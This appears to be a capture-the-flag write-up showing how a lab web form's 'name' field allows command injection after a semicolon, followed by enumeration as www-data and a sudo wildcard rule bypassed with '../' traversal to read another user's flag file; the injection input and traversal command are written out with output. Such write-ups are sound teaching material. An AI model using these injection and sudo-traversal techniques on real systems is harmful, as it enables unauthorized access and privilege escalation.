



# Intro


# Information gathering
Accessing the site displays a input field. Entering any text and submitting returns the content as part of a longer string / story in the "result-container".


When entering a text in the input field a ```POST``` request is made with a parameter in the body called ```name```.
```http
POST / HTTP/1.1
Host: 64.225.103.251:5006
Cookie: session=eyJpbnN0YW5jZV9pZCI6IjBkMjc0YjQzLTI3ZGMtNDNjOC1iN2I4LTIwOWEzYTc3M2ZhNiJ9.aBXj6Q.5ogh482Q7oyDZzviq1LqbGdfoOo
Content-Length: 8
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: https://64.225.103.251:5006
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://64.225.103.251:5006/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

name=whoami
```

The applications seems to handle special characters as just text in the app. The app just returns and displays  the content of the input.  


But when entering a semicolon before the content something interesting is displayed in the page source. A "System Log" is returned with the results of the command. This could be a feature added by the developer for debugging or easy access to the server. Or it could be a bug or unsafe function in the application and the semicolon breaks out of the function executing and executing the command entered after the semicolon.  


# Attack
The user that executing the commands is ```www-data```.
```
whoami

<!-- System Log: www-data -->
```

The files in the same directory as the application context are:
```
ls

<!-- System Log: ritual_1.log  ritual_2.log  ritual_3.log -->
```

Extracting the data in these files give some hints of where the ```sacred_scroll.txt``` (probably the flag) is hidden. One log also hints about that ```sudo``` may be necessary.  
```
cat ritual_1.log

<!-- System Log: Ritual 1 performed at 2025-04-22 08:15:23
Offering: wheat
Presiding Priest: Amenhotep
Note: High Priest keeps sacred_scroll.txt in their home directory. -->
```

```
cat ritual_2.log

<!-- System Log: Ritual 2 performed at 2025-04-22 10:30:45
Offering: bread
Presiding Priest: Ramose
Warning: Remember that the power of sudo must be wielded with precision. Always specify the full path to commands. -->
```

```
cat ritual_3.log

<!-- System Log: Ritual 3 performed at 2025-04-22 14:22:10
Offering: gold
Presiding Priest: Ptahmose
Note: Guard the sacred /path/, for each /traversal/ may awaken curses best left untouched. -->
```

Checking what ```sudo``` privileges the context user is given. The user ```www-data``` is able to execute the ```/usr/bin/cat /var/log/ritual/*``` as the user ```high_priest``` with out needing to enter a password.
```
sudo -l

<!-- System Log: User www-data may run the following commands on oracle-server:
    (high_priest) NOPASSWD: /usr/bin/cat /var/log/ritual/*
 -->
```

Using `sudo -u`, a command can be executed as another user. In this case, it allows the execution of `/usr/bin/cat /var/log/ritual/*` as the `high_priest` user. The wildcard `*` means any file or sub directory under `/var/log/ritual/` can be targeted.

However, if the `sudo` rule is not strictly validating the full resolved path (i.e., it only checks that the command starts with `/usr/bin/cat /var/log/ritual/`), then directory traversal using `../` can potentially bypass the intended restriction. By using `../../../`, it's possible to navigate back to the root (`/`), and then access files elsewhere in the system, such as `/home/high_priest/sacred_scroll.txt`.
```
sudo -u high_priest /usr/bin/cat /var/log/ritual/../../../home/high_priest/sacred_scroll.txt

<!-- System Log: O24{th3_scr1b3_r3v34ls_h1dd3n_tr34sur3s} -->
```